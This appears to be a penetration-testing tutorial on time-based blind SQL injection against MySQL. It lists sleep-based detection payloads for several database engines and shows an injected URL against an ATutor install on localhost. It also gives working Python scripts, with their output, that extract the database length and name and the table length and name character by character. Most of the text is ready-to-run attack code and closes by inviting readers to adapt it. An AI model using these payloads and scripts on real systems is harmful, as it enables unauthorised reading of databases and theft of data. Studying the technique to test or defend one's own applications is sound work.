 ## MySQL Time Based Blind SQLi

> - It works the same way Boolean Based Blind SQLi works.
> - We should use it where detecting the change in content length is almost impossible.
> - It's just kind of an extension of boolean based sqli, so we can also use it where we could use boolean based payloads.

- Vulnerability Detection:
> ```sql
> SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
> 'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
> 1'=sleep(25)='1
> '%2b(select*from(select(sleep(2)))a)%2b'
> WAITFOR DELAY '0:0:25';--
> OR SLEEP(25)
> AND SLEEP(25) AND ('kleiton'='kleiton
> WAITFOR DELAY '0:0:25' and 'a'='a;--
> IF 1=1 THEN dbms_lock.sleep(25);
> SLEEP(25)
> pg_sleep(25)
> and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
> DBMS_LOCK.SLEEP(25);
> AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
> 1,'0');waitfor delay '0:0:25;--
> (SELECT 1 FROM (SELECT SLEEP(25))A)
> %2b(select*from(select(sleep(25)))a)%2b'
> /**/xor/**/sleep(25)
> or (sleep(25)+1) limit 1 --
> ```
> - For example:
> ```sql
> http://localhost/atutor/mods/_standard/social/index_public.php?q=te%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27%23
> ```
> - It'll take almost 25 seconds for the site to load, which means it's vulnerable to sqli.

- Retrieving the database length
> - Payload:
> ```sql
> 'XOR(if(length(database())=1,sleep(5*5),0))OR'#
> ```
> - Script:
> ```python
> import multiprocessing as mp
> import requests
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>
> def db_length(number):
>     payload = f"te'XOR(if(length(database())={number},sleep(3),0))OR'#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     if r.elapsed.total_seconds() > 2:
>         print(number)
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     processes = []
>     for number in range(30):
>         p = mp.Process(target=db_length, args=[number])
>         p.start()
>         processes.append(p)
>     for process in processes:
>         process.join()
>     
>     
> ```
> ```python
> Output:
> python .\time-based\time-based-atutor-dblength.py
> [*] Retreiving Database Length:
> [*] Database length: 6
> ```

- Retrieving Database Name:
> - Payload
> ```sql
> 'XOR(if((select/**/ascii(substring(database(),1,1)))=1,sleep(5*5),0))OR'#
> ```
> - Script:
> ```python
> import requests
> import concurrent.futures
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
> final_string = {}
>
> def db_length(number):
>     payload = f"te'XOR(if(length(database())={number},sleep(3),0))OR'#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     if r.elapsed.total_seconds() > 2:
>         return number
>
>
> def atutor_dbRetrieval(l):
>     for j in range(32, 256):
>         payload = f"te'XOR(if((select/**/ascii(substring(database(),{l},1)))={j},sleep(3),0))OR'#"
>         param = {'q': payload}
>         r = requests.get(target, param)
>         if r.elapsed.total_seconds() > 2:
>             final_string[l-1] = chr(j)
>             print(''.join(final_string[i] for i in sorted(final_string.keys())))
>
>
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>
>     db_len = 0
>     with concurrent.futures.ProcessPoolExecutor() as executor:
>         results = [executor.submit(db_length, _) for _ in range(30)]
>
>         for f in concurrent.futures.as_completed(results):
>             if f.result() != None:
>                 db_len = f.result()
>     print(db_len)
>
>     print("[+] Retrieving Database name: ....")
>     with concurrent.futures.ThreadPoolExecutor() as executor:
>         results = [executor.submit(atutor_dbRetrieval, index) for index in range(db_len+1)]
>
>     print("[+] Database Name: ", end=" ")
>     print(''.join(final_string[i] for i in sorted(final_string.keys())))
>     print("[+] Done")
> ```
> ```python
> Output:
> python .\time-based\time-based-atutor-dbname.py  
> [*] Retreiving Database Length:
> [*] Database length:  6
> [+] Retrieving Database name: ....
> a
> ao
> aor
> ator
> atuor
> atutor
> [+] Database Name:  atutor
> [+] Done
> ```

- Retrieving table length:
> - Payload:
> ```sql
> 'XOR(if((length((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=12,sleep(5*5),0))OR'#
> ```
> - Script
> ```python
> import multiprocessing as mp
> import requests
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>
> def table_length(number):
>     payload = f"te'XOR(if((length((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))={number},sleep(3),0))OR'#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     if r.elapsed.total_seconds() > 2:
>         print(number)
>
> if __name__ == "__main__":
>     print('[*] Retreiving Table Length! \n[*] Table length: ', end=' ')
>     processes = []
>     for number in range(50):
>         p = mp.Process(target=table_length, args=[number])
>         p.start()
>         processes.append(p)
>     for process in processes:
>         process.join()
>     
>      
> ```
> ```python
> Output:
> python .\time-based-atutor-tableLength.py
> [*] Retreiving Table Length!
> [*] Table length: 12
> ```

- Retrieving table name:
> - Payload:
> ```sql
> 'XOR(if((select/**/ascii(substring((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1),{l},1)))={j},sleep(5),0))OR'#
> ```
> - Script:
> ```python
> import requests
> import concurrent.futures
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
> final_string = {}
>
> def table_length(number):
>     payload = f"te'XOR(if((length((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))={number},sleep(3),0))OR'#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     if r.elapsed.total_seconds() > 2:
>         return number
>
>     
> def atutor_tableRetrieval(l):
>     for j in range(32, 256):
>         payload = f"te'XOR(if((select/**/ascii(substring((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1),{l},1)))={j},sleep(5),0))OR'#"
>         param = {'q': payload}
>         r = requests.get(target, param)
>         if r.elapsed.total_seconds() > 4:
>             final_string[l-1] = chr(j)
>             print(''.join(final_string[i] for i in sorted(final_string.keys())))
>             
>
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length! \n[*] Table length: ', end=' ')
>     
>     table_len = 0
>     with concurrent.futures.ProcessPoolExecutor() as executor:
>         results = [executor.submit(table_length, _) for _ in range(50)]
>         
>         for f in concurrent.futures.as_completed(results):
>             if f.result() != None:
>                 table_len = f.result()
>     print(table_len)
>         
>     print("[+] Retrieving Table name!")
>     with concurrent.futures.ThreadPoolExecutor() as executor:
>         results = [executor.submit(atutor_tableRetrieval, index) for index in range(table_len+1)]
>
>     print("[+] Table Name: ", end=" ")
>     print(''.join(final_string[i] for i in sorted(final_string.keys())))
>     print("[+] Done")
> ```
> ```python
> Output:
> python .\time-based-atutor-tablename.py
> [*] Retreiving Database Length!
> [*] Table length:  12
> [+] Retrieving Table name!
> _
> __
> _a_
> a_a_
> a_ad_
> a_adi_
> a_adi_o
> a_adi_lo
> a_admi_lo
> a_admin_lo
> at_admin_lo
> at_admin_log
> [+] Table Name:  at_admin_log
> [+] Done
> ```

---

> Write your own commands / scripts as per your needs.
